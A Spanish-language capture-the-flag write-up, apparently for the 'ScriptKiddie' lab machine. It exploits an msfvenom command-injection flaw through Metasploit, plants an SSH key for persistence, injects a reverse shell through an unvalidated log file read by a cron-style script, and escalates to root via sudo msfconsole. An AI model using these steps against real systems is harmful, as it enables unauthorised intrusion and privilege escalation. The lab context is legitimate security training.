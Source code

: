 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">ScriptKiddie</h1>

# ÍNDICE

# INICIO

Como siempre probaremos a hacer el test de conectividad mandando un ping a la máquina.

![image](https://github.com/user-attachments/assets/dc9c6969-29b3-4c3d-a2ef-9a8691052df1)

Posteriormente haremos un escaner de los puertos más importantes a ver si encontramos algo importante.

![image](https://github.com/user-attachments/assets/9009ccbf-437d-4a9b-8e23-6a3495cf5d25)

Encontramos 2 puertos tcp abiertos (22) y (5000) funcionando en python 

Encontramos una página web por el puerto 5000 llamada "k1d'5 h4ck3r r00l5"

![image](https://github.com/user-attachments/assets/a0174ec0-f1d8-4b48-92b4-58d1c7c5e355)

En la sección de "payloads" nos encontramos un generador con "msfvenom" 

Posteriormente a ello encontramos el CVE-2020-7384 sobre una vulnerabilidadd e injección de comandos en "msfvenom"

He cogido este [exploit](https://www.exploit-db.com/exploits/49491)

Alfinal lo he hecho con msfvenom porque no me salia por ningun lado.

```
msfvenom
search msfvenom
use 0
show options
set LHOST mi ip
set LPORT mi puert
show payloads
set payload 42
run
```
Estamos dentro

![image](https://github.com/user-attachments/assets/480f9c82-301c-4d19-9d31-83b1ce9f7434)

![image](https://github.com/user-attachments/assets/8cc864ba-5d35-45c5-9f5d-5179076f8b5d)

Vemos que estamos en el usuario "kid" y cogemos la flag del usuario

Vamos a ir también a coger las ssh para conectarnos 

./ssh/authorized keys 

Simplemente generamos una clave en nuestrop pc con 

```
ssh-keygen
```
Posteriormente la copiamos con "echo ippublicas >> authorized_keys"

Nos vamos a la máquina victima y la copiamos en esa ruta y luego nos conectamos por ssh sin problema

![image](https://github.com/user-attachments/assets/cd1abc1d-0ca2-46e6-bba1-328244d20131)

Si vamos enumerando nos ecnontramos con carpetas como "logs" o dentro de pwn encontramos un .sh llamando "scanlosers.sh"

```
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
Si nos fijamos se utilizan separadores cono -d y los rachivos empiezan a burcar -f3- consideramos como la ip adicionalmente no se valida y hace el script vulnerable a OS injección command

Si vemos la aplicación web el codigo /home/kid/html/app.py vemos que se puede imputear una ip que sale en /home/kid/logs/hackers archivos no alfanumeros y se envia para "searchsploit"
```
def searchsploit(text, srcip):

 if regex_alphanum.match(text):
 result = subprocess.check_output(['searchsploit', '--color', text])
 return render_template('index.html', searchsploit=result.decode('UTF-8',
'ignore'))
 else:

 with open('/home/kid/logs/hackers', 'a') as f:
 f.write(f'[{datetime.datetime.now()}] {srcip}\n')

 return render_template('index.html', sserror="stop hacking me - well hack you
back")
```
Podemos hacer un poco de truco y envede la pagina web escriba datos en el fichero nosotros hacemos un error y vemos si llega o no

Sabiendo esto podemos hacer un netcat para estar en escucha en el puerto que queramos y escribir una shell reversea en los logs del hacker

![image](https://github.com/user-attachments/assets/052f809f-6b9a-48e6-b3ce-4c7b4d4d4dd3)

Estamos dentro del usuario (pwn)

![image](https://github.com/user-attachments/assets/43fb1c5d-ced9-44a0-be17-e83395f440d3)

vamos a importar una shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![image](https://github.com/user-attachments/assets/03e3080a-eb9c-4aa9-ac1f-48bcdc38d6ee)

Nos damos cuenta que esa ruta la podemos ejecutar sin comandos

Vamos que podemos ahcer una msfconsole

ejecutamos una
```
sudo msfconsole
```
Desde la misma consola podemos hacer una shell integrada con "irb" y llamar al sistmea que ejecute una bash

```
irb
system("/bin/bash")
```

GG






